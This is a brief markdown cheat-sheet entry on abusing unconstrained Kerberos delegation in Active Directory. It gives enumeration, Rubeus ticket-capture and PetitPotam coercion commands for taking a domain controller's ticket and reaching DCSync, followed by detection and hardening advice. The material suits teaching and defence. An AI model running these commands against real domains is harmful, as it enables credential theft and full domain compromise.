

# Unconstrained delegation abuse

### Affected object / attribute
**`TRUSTED_FOR_DELEGATION`** on a computer/service account.

### Concept (deep)
The service receives the user’s **forwardable TGT** and can impersonate the user anywhere. Compromise that host + coerce a **DC** → capture the **DC machine TGT** → DCSync.

### Attack flow (Mermaid)


### Commands
```powershell
# ── Enumerate unconstrained delegation ──────────────────────────────
Get-DomainComputer -Unconstrained
```

```bash
# ── Coerce DC to the compromised host, then extract tickets ─────────
Rubeus.exe monitor /interval:5 /nowrap
python3 PetitPotam.py <unconstrained_host> <dc_ip>
```

### Detection
**4768/4769** for a **DC machine account** landing on a member server; PrinterBug/EFSRPC telemetry; remove unconstrained delegation; enable **Protected Users** + **sensitive/cannot-delegate**.

---
